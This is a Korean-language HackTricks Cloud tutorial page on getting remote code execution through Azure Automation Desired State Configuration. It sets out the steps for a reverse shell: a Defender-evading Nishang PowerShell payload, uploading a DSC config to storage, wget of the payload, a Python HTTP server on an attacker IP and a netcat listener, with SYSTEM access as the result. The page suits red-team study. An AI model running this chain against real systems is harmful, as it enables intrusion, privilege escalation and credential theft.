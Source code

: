 # Az - 상태 구성 RCE

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

**전체 게시물은 여기에서 확인하세요: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### 원격 서버 (C2) 인프라 준비 및 단계 요약

#### 개요
이 과정은 Windows Defender를 우회하는 목적으로 수정된 Nishang `Invoke-PowerShellTcp.ps1` 페이로드인 `RevPS.ps1`을 호스팅하기 위해 원격 서버 인프라를 설정하는 것을 포함합니다. 페이로드는 IP `40.84.7.74`를 가진 Kali Linux 기계에서 간단한 Python HTTP 서버를 사용하여 제공됩니다. 이 작업은 다음과 같은 단계로 실행됩니다:

#### 단계 1 — 파일 생성
- **필요한 파일:** 두 개의 PowerShell 스크립트가 필요합니다:
1. `reverse_shell_config.ps1`: 페이로드를 가져와 실행하는 Desired State Configuration (DSC) 파일입니다. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1)에서 얻을 수 있습니다.
2. `push_reverse_shell_config.ps1`: 구성을 VM에 게시하는 스크립트로, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1)에서 사용할 수 있습니다.
- **사용자 정의:** 이러한 파일의 변수와 매개변수는 사용자의 특정 환경에 맞게 조정되어야 합니다. 이는 리소스 이름, 파일 경로 및 서버/페이로드 식별자를 포함합니다.

#### 단계 2 — 구성 파일 압축
- `reverse_shell_config.ps1`을 `.zip` 파일로 압축하여 Azure Storage Account로 전송할 준비를 합니다.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### 단계 3 — 스토리지 컨텍스트 설정 및 업로드
- 압축된 구성 파일은 Azure의 Set-AzStorageBlobContent cmdlet을 사용하여 미리 정의된 Azure Storage 컨테이너인 azure-pentest에 업로드됩니다.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### 단계 4 — Kali Box 준비
- Kali 서버는 GitHub 저장소에서 RevPS.ps1 페이로드를 다운로드합니다.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- 스크립트는 대상 Windows VM과 역쉘을 위한 포트를 지정하기 위해 편집됩니다.

#### 단계 5 — 구성 파일 게시
- 구성 파일이 실행되어 역쉘 스크립트가 Windows VM의 지정된 위치에 배포됩니다.

#### 단계 6 — 페이로드 호스팅 및 수신 대기 설정
- Python SimpleHTTPServer를 시작하여 페이로드를 호스팅하고, 수신 대기를 위해 Netcat 리스너를 설정합니다.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- 예약된 작업은 페이로드를 실행하여 SYSTEM 수준의 권한을 획득합니다.

#### 결론

이 프로세스의 성공적인 실행은 자격 증명 덤프 또는 여러 가상 머신으로의 공격 확장과 같은 다양한 작업을 위한 많은 가능성을 엽니다. 이 가이드는 Azure Automation DSC 영역에서 계속된 학습과 창의성을 장려합니다.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 **HackTricks에서 광고**하거나 **PDF로 HackTricks를 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
